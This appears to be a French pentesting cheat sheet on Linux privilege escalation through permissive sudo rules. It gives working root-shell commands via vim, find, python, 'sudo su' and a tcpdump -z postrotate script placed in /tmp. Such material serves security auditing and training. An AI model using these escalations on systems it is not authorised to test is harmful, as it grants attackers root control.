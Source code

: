 #### Abus des Droits Sudo
> Exploiter des configurations `sudo` permissives où un utilisateur peut exécuter des commandes en tant que root, potentiellement sans mot de passe ou avec des commandes qui permettent l'évasion.

```bash
# Vérifier les droits sudo de l'utilisateur courant
sudo -l
```
> Examiner attentivement la sortie pour les commandes exécutables sans mot de passe et les variables d'environnement conservées (`env_keep`).

##### Scénarios d'Exploitation Sudo :

*   **Scénario 1 (Sudo sans mot de passe pour des commandes "dangereuses") :** Si une commande comme `vim`, `nano`, `less`, `more`, `find`, `awk`, `sed`, `tar`, `cp`, `mv`, `python`, `perl`, `sh`, `bash`, etc., est exécutable sans mot de passe (`NOPASSWD`), chercher des moyens d'exécuter des commandes arbitraires via ces outils (GTFOBins est une excellente ressource).
    *   Exemple (via `vim`) : `sudo vim -c ':!/bin/sh'` ou `sudo vim -c ':set shell=/bin/bash :shell'`
    *   Exemple (via `find`) : `sudo find . -exec /bin/sh \; -quit`
    *   Exemple (via `python`) : `sudo python -c 'import os; os.system("/bin/bash")'`
*   **Scénario 2 (Sudo avec des chemins non standard / `secure_path`) :** Vérifier si le `PATH` utilisé par `sudo` (souvent défini par `secure_path` dans `/etc/sudoers`) est différent du `PATH` de l'utilisateur. Si `secure_path` est mal configuré ou si des commandes autorisées par `sudo` appellent d'autres exécutables sans chemin absolu, cela pourrait permettre d'exploiter des binaires malveillants portant le même nom que des commandes système si un répertoire inscriptible par l'utilisateur est dans le `secure_path` (rare mais possible) ou dans le `PATH` du script appelé.
    *   Vérifier le `PATH` de `sudo` : `sudo -l` (regarder la ligne `secure_path` ou `env_reset` et les `env_keep` associées au `PATH`). Comparer avec `echo $PATH`.
*   **Scénario 3 (Sudo avec des binaires vulnérables spécifiques) :** Rechercher des vulnérabilités spécifiques aux versions des binaires autorisés par `sudo`. Par exemple, une version spécifique de `apache2` autorisée par `sudo` pourrait avoir une vulnérabilité connue permettant l'escalade.

##### Sudo avec `(ALL) NOPASSWD: ALL` ou `(root) NOPASSWD: /chemin/commande`
> Si `sudo -l` indique `(ALL) NOPASSWD: ALL`, l'utilisateur peut exécuter n'importe quelle commande en tant que root sans mot de passe.
```bash
sudo su
# ou
sudo /bin/bash
```
> Si une commande spécifique est autorisée avec `NOPASSWD`, elle peut être utilisée directement. Si cette commande permet d'exécuter d'autres commandes (ex: `find`, `awk`, `less`), elle peut être exploitée.

##### Exploitation de `tcpdump` avec Sudo
> Si `sudo -l` autorise `tcpdump` et que l'utilisateur a les droits d'écriture dans le répertoire où `tcpdump` est exécuté.
```bash
# Condition : sudo -l montre que tcpdump peut être exécuté.
# L'option -w de tcpdump écrit dans un fichier. Si on peut contrôler le nom du fichier et que tcpdump est exécuté en tant que root...
# Cela est moins direct pour un shell, mais peut être utilisé pour écrire des fichiers.
# Une technique plus courante avec tcpdump (si version < 4.99.0) et l'option -z postrotate-command :
# Créez un script shell, par exemple /tmp/shell.sh
echo "/bin/bash -p" > /tmp/shell.sh
chmod +x /tmp/shell.sh
# Exécutez tcpdump avec l'option -z
sudo tcpdump -G 1 -w /tmp/dump -z /tmp/shell.sh
# Après 1 seconde, /tmp/shell.sh sera exécuté en tant que root.
```
